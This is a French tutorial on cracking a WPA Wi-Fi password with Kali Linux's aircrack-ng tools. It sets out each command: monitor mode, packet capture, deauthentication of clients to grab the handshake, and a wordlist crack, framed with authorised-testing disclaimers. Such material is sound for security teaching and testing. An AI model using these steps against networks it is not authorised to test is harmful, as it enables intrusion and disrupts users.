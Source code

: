 ### Tutoriel : Commandes pour Hacker un Mot de Passe Wi-Fi

#### Introduction
Ce tutoriel vous guidera à travers les étapes nécessaires pour utiliser Kali Linux pour pirater un mot de passe Wi-Fi. Il est important de noter que ce guide est destiné à des fins éducatives et éthiques seulement. Assurez-vous d'avoir l'autorisation appropriée avant de tester ces techniques sur un réseau.

#### Prérequis
- Kali Linux installé sur une machine virtuelle (VMware) ou directement sur un PC.
- Un adaptateur sans fil compatible avec l'injection de paquets (par exemple, Alfa AWUS036ACH).
- Connexion internet pour télécharger les outils nécessaires.

#### Étapes

1. **Démarrer Kali Linux et ouvrir la ligne de commande**
    - Ouvrez votre machine virtuelle ou votre PC avec Kali Linux installé.
    - Accédez à la ligne de commande.

2. **Vérifier la disponibilité de votre adaptateur sans fil**
    ```bash
    ifconfig
    ```
    - Vous devriez voir votre adaptateur sans fil répertorié (généralement sous `wlan0`).

3. **Activer le mode moniteur**
    ```bash
    airmon-ng start wlan0
    ```
    - Remplacez `wlan0` par l'interface correspondant à votre adaptateur sans fil.

4. **Lister les réseaux Wi-Fi disponibles**
    ```bash
    airodump-ng wlan0mon
    ```
    - Prenez note du BSSID et du canal (CH) du réseau cible.

5. **Capturer les paquets du réseau cible**
    ```bash
    airodump-ng -c [channel] --bssid [BSSID] -w [output_file] wlan0mon
    ```
    - Remplacez `[channel]` par le canal du réseau cible.
    - Remplacez `[BSSID]` par le BSSID du réseau cible.
    - Remplacez `[output_file]` par le nom de fichier de sortie souhaité.

6. **Déauthentifier un appareil du réseau pour capturer le handshake**
    ```bash
    aireplay-ng --deauth 10 -a [BSSID] wlan0mon
    ```
    - Remplacez `[BSSID]` par le BSSID du réseau cible.
    - Cela forcera un appareil à se reconnecter, permettant de capturer le handshake.

7. **Vérifier la capture du handshake**
    ```bash
    aircrack-ng [output_file].cap
    ```
    - Remplacez `[output_file]` par le nom de fichier de sortie précédemment spécifié.

8. **Craquer le mot de passe avec un fichier de mots de passe**
    ```bash
    aircrack-ng -w [wordlist] -b [BSSID] [output_file].cap
    ```
    - Remplacez `[wordlist]` par le chemin vers votre fichier de mots de passe.
    - Remplacez `[BSSID]` par le BSSID du réseau cible.
    - Remplacez `[output_file]` par le nom de fichier de sortie.

#### Conclusion
En suivant ces étapes, vous pouvez tester la sécurité de votre propre réseau Wi-Fi. Rappelez-vous, utiliser ces techniques sans autorisation est illégal et contraire à l'éthique. Utilisez vos connaissances de manière responsable.

---

#### Références supplémentaires
- [Configurer votre nouvel adaptateur sans fil](https://adam-toscher.medium.com/configure-your-new-wireless-ac-1fb65c6ada57)
- https://adam-toscher.medium.com/configure-your-new-wireless-ac-1fb65c6ada57
- [Vidéo YouTube sur le piratage Wi-Fi](https://www.youtube.com/watch?v=bzCAMWP1G1U)

Pour toute question ou besoin de clarification supplémentaire, n'hésitez pas à demander!
